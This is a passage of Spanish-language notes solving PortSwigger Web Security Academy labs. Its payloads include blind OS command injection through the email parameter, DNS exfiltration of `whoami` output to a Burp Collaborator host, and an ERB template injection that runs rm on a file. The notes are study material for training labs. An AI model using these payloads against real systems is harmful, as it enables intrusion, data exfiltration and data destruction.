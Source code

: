 1. Enviar un mensaje de feedback y capturar la request
2. Setear el parámetro email=||whoami>/var/www/images/file.txt||
3. Acceder a https://LABID.web-security-academy.net/image?filename=file.txt

### [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

#### Solución

1. Enviar un mensaje de feedback y capturar la request
2. Setear el parámetro email=||nslookup burpcollaborator.net||

### [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

#### Descripción

1. Enviar un mensaje de feedback y capturar la request
2. Abrir Burp collaborator client y generar/copiar el "collaborator payload"
3. Setear el parámetro email=||nslookup \`whoami\`.fn6xqhhzgnulzs5qkh18xj7ek5qwel.burpcollaborator.net|| reemplazando por la url generada
4. En Burp collaborator client hacer un poll y verificar en las solicitudes recibidas el usuario

#### Solución encontrada:

peter-bC8z09

---

## [Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)

### [Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

#### Descripción:

Al ver los detalles de un producto sin stock, se muestra de forma insegura el mensaje pasado mediante el parámetro message en la URL, posibilitando pasar un parámetro que sea evaluado en el servidor por el template ERB.

#### Solución:

Dirigirse a https://LABID.web-security-academy.net/?message=<%=system("rm /home/carlos/morale.txt")%>

### [Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)
